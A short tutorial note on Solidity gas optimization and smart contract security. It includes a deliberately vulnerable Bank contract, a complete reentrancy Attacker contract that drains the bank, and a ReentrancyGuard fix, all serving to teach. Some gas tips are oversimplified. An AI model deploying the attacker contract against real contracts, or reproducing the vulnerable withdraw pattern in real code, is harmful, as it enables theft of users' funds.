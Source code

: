 # Smart contract gas optimization

- uint8 saves gas than uint256

- Avoid loops

- Since, there are no floating points in solidity, use decimals to handle it. Beware that in division, Num>Den

- public state variables consume gas

- Extra text in return consumes gas 

- Events can be used to read variables which are only needed to be read by developer, not the user







# Smart contract security

- Use CEI withdrawal pattern(Check, Effects and Interaction) to prevent reentrancy

- block.timestamp can be manipulated by miners since they can change order of transactions. It is therefore recommended that instead we should use external time oracles

## What is reentrancy ?

Its calling any function of a smart contract while that function is being called. 

Mostly this function is the withdraw function. 

## Suppose there is a bank account smart contract which is vulnerable 

//SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";

contract Bank {
    using Address for address payable;

    mapping(address => uint256) public balanceOf;

    function deposit() external payable {
        balanceOf[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 depositedAmount = balanceOf[msg.sender];
        payable(msg.sender).sendValue(depositedAmount);
        balanceOf[msg.sender] = 0;
    }
}


## Now the attacker can make a smart contract to attack the bank smart contract which calls the deposit and withdraw functions simultaneously. And it keeps recieving the funds till the balance of the bank is exhausted 

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/access/Ownable.sol";

interface IBank {
  function deposit() external payable;
  function withdraw() external;
}

contract Attacker is Ownable {
  IBank public immutable bankContract;

  constructor(address bankContractAddress) {
    bankContract = IBank(bankContractAddress);
  }

  function attack() external payable onlyOwner {
    bankContract.deposit{ value: msg.value }();
    bankContract.withdraw();
  }

  receive() external payable {
    if (address(bankContract).balance > 0) {
      bankContract.withdraw();
    } else {
      payable(owner()).transfer(address(this).balance);
    }
  }
}


## How is the reentrancy done in this case ?

First of all the attacker calls the attack function which calls the deposit and withdraw function of the bank contract. 

As soon as the withdraw function is executed, the recieve function of attacker smart contract is executed. And that smart contract runs a loop of withdraw function till the balance is exhausted. 

Then all the balance of the contract is transferred to the attacker account (owner of the attack smart contract)



## How to protect smart contracts from reentrancy ?

- import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

- contract Bank is ReentrancyGuard {

- attach nonReentrant to withdraw function to protect against reentrancy 
(Inside the library, there is a simple variable whose value is set to 1 and 2 when we use the withdraw once, the value changes to 2. Any calls after the first call will fail)
..}


